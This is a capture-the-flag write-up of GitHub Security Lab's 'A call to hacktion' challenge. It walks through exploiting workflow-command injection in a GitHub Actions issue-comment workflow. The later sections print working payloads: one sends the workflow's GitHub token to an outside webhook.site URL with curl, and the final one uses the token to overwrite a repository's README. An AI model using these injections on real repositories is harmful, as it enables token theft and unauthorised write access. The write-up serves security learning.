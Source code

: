 ```yaml
---
title: A call to hacktion, a GitHub workflow CTF
subTitle: GitHub Security Lab, Capture The Flag
category: "ctf"
cover: photo-a-call-to-hacktion-cover.jpg
---
```


## Introduction

"A call to hacktion, a GitHub workflow CTF" is a single level challenge based around GitHub Workflow best practices and an interesting vulnerability pattern that GitHub Security teams have seen out in the real world.

To solve the game, you will have to elevate your privileges from read-only to full write access on a designated game repository!

## My Process

Okay, so we know that this challenge resolves around the GitHub Workflow, the vulnerability is probably in the workflow file.

#### Content of **comment-logger.yml**:

```yaml
name: log and process issue comments
on:
  issue_comment:
    types: [created]

jobs:
  issue_comment:
    name: log issue comment
    runs-on: ubuntu-latest
    steps:
      - id: comment_log
        name: log issue comment
        uses: actions/github-script@v3
        env:
          COMMENT_BODY: ${{ github.event.comment.body }}
          COMMENT_ID: ${{ github.event.comment.id }}
        with:
          github-token: "deadc0de"
          script: |
            console.log(process.env.COMMENT_BODY)
            return process.env.COMMENT_ID
          result-encoding: string
      - id: comment_process
        name: process comment
        uses: actions/github-script@v3
        timeout-minutes: 1
        if: ${{ steps.comment_log.outputs.COMMENT_ID }}
        with:
          script: |
            const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
            return ""
          result-encoding: string
```

As it was my first time working with GitHub workflow, I needed to understand how GitHub workflow works. I googled the workflow syntax for github actions to understand the workflow configuration.

Link: https://docs.github.com/en/actions/reference/workflow-syntax-for-github-actions

After reading the syntax, I realised this this workflow will the process describe in the workflow configuration when there is a new comment on an issue. With that knowledge, I figured that I should create a new issue and play around and see the logs on the workflow.

![new-issue](./new-issue.jpeg)

Then I proceed to make a new comment under the newly created issue, "test issue". I noticed that an action was ran after my comment, so I clicked on the action and tried to see the log.

![github-action-log](./github-action-log.jpeg)

So I realised that my comment is a user input that I can control, which may or may not be the vulnerability. As this is my only lead, I went ahead and googled more GitHub actions workflow related stuff, and I came across a GitHub Security Lab blog post about untrusted input.

Link: https://securitylab.github.com/research/github-actions-untrusted-input

```yaml{3,6,11,14}
- id: comment_log
env:
    COMMENT_BODY: ${{ github.event.comment.body }} // I CAN CONTROL
    COMMENT_ID: ${{ github.event.comment.id }}
    script: |
    console.log(process.env.COMMENT_BODY) // MY INPUT, CAN I INJECT CODE HERE?
    return process.env.COMMENT_ID
    result-encoding: string

- id: comment_process
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
with:
    script: |
    const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
    return ""
    result-encoding: string
```

Looking at the workflow file again, I see that my input (_comment\_body_), is flows to `console.log(process.env.COMMENT_BODY)`. My first initial thought is that I could potential inject javascript code here. To test my theory, I tried inputting quotes, `'` and `"` to see if there is any error generated.

And did it work? Of course that didn't work, it would have been too easy if it did. Afterwards, I thought to try out some of the steps written in the GitHub Security Lab blog post about untrusted input. I tried template injection, but that didn't work as there is no template here.

Sadly, I was stuck here for a long time, just spamming and hoping for an error to pop out. I decided to continue googling GitHub actions/workflow, to see if I could find anything of interest.

Which somehow, I did. I found out that there is something called "workflow command", not sure what that is, I read the website and noticed that a workflow command was passed in a `console.log`. I tried doing the same thing just to see what will happen.

Link: https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions

My input: `::save-state name=processID::12345`. This workflow command create environment variables named STATE\_processID with the value of 12345. I thought that this command could modify the COMMENT\_ID, so I replace "processID" with "COMMENT\_ID". Spoiler alert, it didn't. Why not? That's because this command created an environment variable and prepend "STATE\_".

```yaml
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
```

Back to the workflow file again, I noticed that if I wanted the next step to run, the comment*log needed to output the COMMENT\_ID, right? Note: \_Not really, `steps.comment_log.outputs.COMMENT_ID` is actually just the value of the output from the comment\_log step.*

With that, I'm going to skip my painstaking redundant effort to try to get "COMMENT\_BODY" to be the value of "COMMENT\_ID".

Now, another workflow command is `::set-output name=action_fruit::strawberry`. This workflow command set the value output of "action\_fruit" to "strawberry". Understanding this command, I tried to set the output value of comment\_log, "COMMENT\_ID" to "true" after learning that expression in the `if` statement will be evaluated as an expression.

My input: `::set-output name=COMMENT_ID::true`. Finally, I started to see progress. Quickly, I know that command injection is possible, as this input is treated as an expression as part of the variable declaration.

```javascript
const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
```

![github-action-log-process](./github-action-log-process.jpeg)

Time to print out the environment variables, which contains the GITHUB TOKEN for READ/WRITE access according to the GitHub workflow documentation. My input: `::set-output name=COMMENT_ID::true ;console.log(process.env);`.

![github-action-leak-env](github-action-leak-env.png)

However, the GitHub token is masked, therefore we cannot just see it. Also, later on, I would realised the the token is only valid while the action is being run. Therefore, even if I could copy and token, it would be useless later.

I then used some website to receive request, thinking that I could append the token as part of the URL, just to validate the token exists. My input: `::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync('curl https://webhook.site/REDACTED?token=' + process.env["INPUT_GITHUB-TOKEN"]);`. I did the same for "ACTIONS\_RUNTIME\_TOKEN".

After verifying that the token exists, all I had to do is to make a request using GitHub API with the token to commit to the "README.md" file. I spent quite a few time researching the API but the solution is below.

## My Solution

```javascript
::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync(`curl -i --request PUT --url https://api.github.com/repos/${process.env.GITHUB_REPOSITORY}/contents/README.md --header 'authorization: Bearer ${process.env["INPUT_GITHUB-TOKEN"]}' --header 'content-type: application/json' --data '{ "message": "PWNED!!!!", "content": "V2UgYXJlIGluY3JlZGlibHkgc2VjdXJlISBCdXQgaWYgeW91IGRpc2FncmVlLCBwbGVhc2UgZmlsZSBhIFBSIDopCk5PUEUsIEkgRElTQUdSRUVFRSEh", "sha": "959c46eb0fbab9ab5b5bfb279ab6d70f720d1207" }' --fail`);
```

![pwned](./pwned.jpeg)

## Results

GitHub Capture the Flag results: https://github.blog/2021-03-22-github-ctf-results/

Note: _The results website shows a different step taken to solve this challenge, go ahead and read it as I think it's nicer and cleaner solution overall compared to mine._
